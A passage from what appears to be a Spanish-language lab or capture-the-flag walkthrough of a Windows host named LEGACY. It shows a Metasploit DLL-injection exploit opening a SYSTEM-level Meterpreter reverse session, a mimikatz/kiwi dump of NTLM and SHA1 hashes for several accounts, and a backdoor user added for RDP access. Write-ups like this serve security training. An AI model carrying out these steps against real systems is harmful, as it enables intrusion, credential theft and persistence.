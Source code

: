 ```meterpreter
[*] Launching msiexec to host the DLL...
[+] Process 4180 launched.
[*] Reflectively injecting the DLL into 4180...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (203846 bytes) to 192.168.180.249
[*] Meterpreter session 2 opened (192.168.45.239:1234 -> 192.168.180.249:62876) at 2025-06-05 17:05:53 -0300

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
- Cargamos **kiwi** para obtener credenciales:

```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain  NTLM                              SHA1
--------       ------  ----                              ----
Administrator  LEGACY  387aef0561b65e4f3cae0960b0fba2d5  d85af7697714a10fdc862d2a36cfe1cfb9df046b
adrian         LEGACY  e3cea06e2de8d54d43b84d4b5bffb5b0  0471c9cb2ae0977d6fa051e6252d272a0e81ca75
pwned          LEGACY  8119935c5f7fa5f57135620c8073aaca  f60d7d6f41f4e0232b620aa2429cdaba85abc63d

wdigest credentials
===================

Username       Domain     Password
--------       ------     --------
(null)         (null)     (null)
Administrator  LEGACY     (null)
LEGACY$        WORKGROUP  (null)
adrian         LEGACY     (null)
pwned          LEGACY     (null)

kerberos credentials
====================

Username       Domain     Password
--------       ------     --------
(null)         (null)     (null)
Administrator  LEGACY     (null)
adrian         LEGACY     (null)
legacy$        WORKGROUP  (null)
pwned          LEGACY     (null)


meterpreter > 
```
> El usuario **pwned** es un usuario que genere yo para entrar por RDP:
```
```